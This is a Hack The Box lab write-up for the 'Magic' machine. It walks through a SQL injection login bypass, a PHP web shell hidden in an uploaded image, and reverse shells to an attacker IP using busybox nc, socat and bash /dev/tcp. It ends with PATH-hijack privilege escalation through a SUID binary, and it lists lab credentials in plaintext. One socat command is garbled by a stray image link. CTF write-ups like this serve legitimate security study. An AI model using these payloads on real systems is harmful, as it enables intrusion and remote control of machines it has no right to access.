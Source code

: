 ```yaml
---
title: "Magic"
date: 2024-08-19
categories: HTB
tags: ["htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "magic", "writeup", "htb"]
---
```


# Magic

# Magic
OS: Linux
Difficulty: Medium

## Credentials
```text
theseus : iamkingtheseus
theseus : Th3s3usW4sK1ng
```

# Enumeration
# Nmap
TCP
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

# HTTP
![[/assets/images/magic1.png]]

> Please **[Login](http://10.10.10.185/login.php)**, to upload images.
## login.php
![[/assets/images/magic2.png]]

## Fuzzing
```sh
ffuf -u http://10.10.10.185 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://10.10.10.185 -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## SQLi
`' or 1=1-- -` as the username 

![[/assets/images/magic3.png]]

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![[/assets/images/magic4.png]]

-> did not work 


# Foothold
## File Upload - Bypass filters
Download an actual image, add `<?php echo system($_GET["cmd"]);?>` .
![[/assets/images/magic5.png]]

![[/assets/images/magic7.png]]

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id
![[/assets/images/magic8.png]]

```sh
# original payload
busybox nc 10.10.14.6 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.14.6%20443%20-e%20%2Fbin%2Fsh
```

Execute the command
![[/assets/images/magic10.png]]

Getting a shell and upgrade to interactive shell
![[/assets/images/magic11.png]]
# Privilege Escalation
## Enumeration
![[/assets/images/magic12.png]]

![[/assets/images/magic13.png]]
![[/assets/images/magic14.png]]
```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![[/assets/images/magic15.png]]

## Shell as theseus
![[/assets/images/magic17.png]]

![[/assets/images/magic18.png]]

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

> `/-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo`

![[/assets/images/magic21.png]]

![[/assets/images/magic22.png]]

This program is using `cat /proc/cpuinfo` instead of `/bin/cat /proc/cpuinfo`. 
The `/bin` directory containing the `cat` binary is included in the user's PATH environment variable. 

```sh
echo $PATH
```

![[/assets/images/magic23.png]]

Normally, it is `/usr/bin/local`. This behavior can be exploited by modifying the `PATH` variable to contain a directory that is writable by our current user. 

Users are allowed to modify the variable and prepend a directory. Let's add `/tmp` directory to the `PATH`. 

```sh
export PATH=/tmp:$PATH
echo $PATH
```

![[/assets/images/magic24.png]]
Added. 

Downlaod pre-compiled Socat to target.

Create a simple script in bash that sends a reverse shell to attackaer machine using Socat.

```sh
echo "./socat tcp-connect:10.10.14.6:555![[/assets/images/magic26.png]]5
exec:/bin/sh,pty,stderr,setsid,sigint,sane" > cat
chmod +x cat
```

```sh
/bin/sysinfo
```

To execute the cat script. 
-> Did not work 

# Alternative method
```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```

![[/assets/images/magic25.png]]

![[/assets/images/magic26.png]]
